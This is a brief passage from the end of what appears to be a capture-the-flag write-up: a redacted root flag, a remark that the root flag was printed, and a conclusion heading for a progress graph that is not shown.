      f1XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

